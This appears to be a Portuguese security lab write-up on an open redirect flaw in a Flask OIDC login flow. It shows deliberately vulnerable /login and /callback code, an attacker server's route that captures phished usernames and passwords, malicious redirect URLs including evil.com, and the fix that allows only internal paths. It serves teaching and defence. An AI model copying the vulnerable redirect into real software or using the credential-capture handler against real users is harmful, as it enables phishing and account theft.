



# A-07 — Open Redirector no IdP / SP (OIDC)

## Descrição

O parâmetro `?next=` (ou `?redirect_uri=`) não validado permite que um atacante
construa uma URL de login legítima que, após autenticação bem-sucedida, redireciona
o utilizador para um domínio controlado pelo atacante.

O utilizador vê o URL do SP legítimo na barra de endereços antes de fazer login —
o que aumenta muito a credibilidade do ataque de phishing.

---

## Pré-requisitos

- SP1 a correr em `http://localhost:5001`
- Attacker Server a correr em `http://localhost:9999`
- `VULN_A07_OPEN_REDIRECT = True` em `sp1/config.py`

---

## Fluxo do Ataque



---

## Análise do Código

### 1. Flag de controlo — `sp1/config.py`

```python
# True  = sistema VULNERÁVEL
# False = mitigação ATIVA
VULN_A07_OPEN_REDIRECT = True
```

Esta flag afecta dois pontos do fluxo de autenticação: a rota `/login`
(onde o parâmetro é lido) e a rota `/callback` (onde o redirect é executado).

---

### 2. Fluxo de decisão na rota `/login`



---

### 3. Código da rota `/login` — `sp1/app.py`

```python
@app.route("/login")
def login():
    next_url = request.args.get("next", "")
    # Para: /login?next=http://localhost:9999/malicious
    # next_url = "http://localhost:9999/malicious"

    if VULN_A07_OPEN_REDIRECT:
        # VULNERÁVEL: qualquer URL guardada sem verificação
        session["next_url"] = next_url
        # session["next_url"] = "http://localhost:9999/malicious"
    else:
        # MITIGADO: só paths internos são permitidos
        if next_url.startswith("/") and not next_url.startswith("//"):
            session["next_url"] = next_url   # "/profile" → aceite
        else:
            session["next_url"] = ""          # "http://..." → rejeitada

    redirect_uri = url_for("callback", _external=True)
    return oauth.keycloak.authorize_redirect(redirect_uri)
    # O utilizador vai para o Keycloak LEGÍTIMO — o ataque ainda não ocorreu
```

> **Porquê guardar na sessão?**
> O OIDC callback (`/callback`) não pode transportar parâmetros arbitrários —
> o Keycloak devolve apenas para o `redirect_uri` registado.
> A sessão é o mecanismo para preservar o `next` durante o fluxo OIDC.

---

### 4. Fluxo de decisão na rota `/callback`



---

### 5. Código do `/callback` — `sp1/app.py`

```python
@app.route("/callback")
def callback():
    token     = oauth.keycloak.authorize_access_token()
    user_info = token.get("userinfo")

    session["user"]         = user_info
    session["access_token"] = token.get("access_token")

    # ---- A-07: Open Redirect ----
    next_url = session.pop("next_url", "")
    # next_url = "http://localhost:9999/malicious"

    if VULN_A07_OPEN_REDIRECT and next_url:
        # VULNERÁVEL: redirect para qualquer URL sem validar
        return redirect(next_url)
        # HTTP 302  Location: http://localhost:9999/malicious
        # Os blocos A-06 abaixo nunca chegam a ser executados (return saiu)

    # Fluxo normal (VULN=False ou next_url vazio)
    if VULN_A06_REFERRER_LEAK:
        return redirect(url_for("dashboard", token=token.get("access_token")))
    return redirect(url_for("index"))
```

---

### 6. Servidor do atacante — captura de credenciais

```python
@app.route("/steal-credentials", methods=["POST"])
def steal_credentials():
    username = request.form.get("username", "")
    password = request.form.get("password", "")

    log_event("A-07: Credenciais Roubadas", "phishing form POST",
              f"username={username}  password={password}")

    # Redireciona para o portal real → vítima não suspeita
    return redirect("http://localhost:5001/")
```

---

## Passos da Demonstração

### 1. Verificar configuração vulnerável

```python
# sp1/config.py
VULN_A07_OPEN_REDIRECT = True
```

### 2. Construir a URL maliciosa

```
http://localhost:5001/login?next=http://localhost:9999/malicious
```

### 3. Abrir o Attacker Dashboard

Abre `http://localhost:9999/` em segundo plano.

### 4. Clicar no link e fazer login

Acede ao URL acima. Faz login com `bob` / `bob123` no Keycloak legítimo.
Após login, o browser vai para a página de phishing.
Introduz quaisquer credenciais na página de phishing.

### 5. Verificar no Attacker Dashboard

Dois eventos aparecem:
- **A-07: Open Redirect** — utilizador aterrou na página
- **A-07: Credenciais Roubadas** — username e password capturados

---

## Mitigação — Análise do Código

```python
# sp1/config.py
VULN_A07_OPEN_REDIRECT = False
```

**Efeito na rota `/login` — validação do `next`:**

```python
# Só paths internos são aceites
if next_url.startswith("/") and not next_url.startswith("//"):
    session["next_url"] = next_url
else:
    session["next_url"] = ""   # URL externa → ignorada silenciosamente
```

**Efeito na rota `/callback`:**

```python
next_url = session.pop("next_url", "")
# next_url = ""  (foi rejeitado na validação do /login)

if VULN_A07_OPEN_REDIRECT and next_url:
    return redirect(next_url)   # ← NÃO executado (VULN=False)

# Fluxo normal para o dashboard
```

**Tabela de validação:**

| `?next=` | `VULN=True` | `VULN=False` |
|----------|-------------|--------------|
| `/profile` | ✅ aceite | ✅ aceite (path interno) |
| `/admin` | ✅ aceite | ✅ aceite (path interno) |
| `http://evil.com` | ✅ → **redirect para evil.com** | ❌ rejeitado → vai para `/` |
| `//evil.com/path` | ✅ → **redirect para evil.com** | ❌ rejeitado (começa com `//`) |
| `http://localhost:9999/malicious` | ✅ → **redirect para atacante** | ❌ rejeitado → vai para `/` |

---

## Referências

- [OWASP — Unvalidated Redirects and Forwards](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)
- [CWE-601: URL Redirection to Untrusted Site](https://cwe.mitre.org/data/definitions/601.html)
- [OAuth 2.0 — redirect_uri validation (RFC 6749 §10.6)](https://datatracker.ietf.org/doc/html/rfc6749#section-10.6)
